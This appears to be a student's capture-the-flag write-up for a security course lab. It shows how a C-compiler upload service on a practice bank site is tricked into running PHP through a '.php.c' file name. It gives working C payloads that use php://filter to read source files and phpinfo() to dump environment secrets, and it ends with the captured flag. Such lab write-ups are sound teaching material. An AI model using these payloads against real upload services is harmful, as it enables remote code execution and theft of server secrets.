 - Including the upload PHP file `#include "/quocca-gcc/upload.php"`, it seems that the binaries compiled by gcc is stored in the `af381d14-a9b1-45b2-b753-d68dc37eac2b/compiled-assets/` directory. It appears that we can access files in that directory i.e. `gcc.quoccabank.com/af381d14-a9b1-45b2-b753-d68dc37eac2b/compiled-assets/<binary_file>`

  ![image-20210716125622141](images/image-20210716125622141.png)

- Upload a file named `<filename>.php.c` as when creating that binary file, it strips out the C extension, so it can be recognised as a PHP file to execute on the server instead.

- For example, creating a file named `hello.php.c` with a normal C program, we can load the binary ELF using the URL `gcc.quoccabank.com/af381d14-a9b1-45b2-b753-d68dc37eac2b/compiled-assets/<binary_filename>`

- We can print PHP code in the C file so that the backend server can execute it when loading the ELF file. Using the payload below, it prints the base64 of the source code of the `flag.php` file (found that it exists by checking robots.txt)

  ```c
  #include <stdio.h>
  #include <stdlib.h>
  
  int main() {
  	printf("=== START ===");
  	printf("<?php require('php://filter/convert.base64-encode/resource=/quocca-gcc/flag.php'); ?>");
  	printf("=== END===");
  }
  ```

  - The output of the file once decoded is:

    ```php
    <?php
    // hard-coding secret is dangerous
    // I removed the hard-coded flag and moved it to environment variable
    ```

- PHP has a feature that we can extract environmental variables used through this payload

  ```c
  #include <stdio.h>
  #include <stdlib.h>
  
  int main() {
  	printf("=== START ===");
  	printf("<?php phpinfo(); ?>");
  	printf("=== END===");
  }
  ```

  - By checking the environment variables, we get the flag that way.
  - COMP6443{OMG_I_THOUGHT_THIS_WAS_6447_BUT_IT_IS_6443}

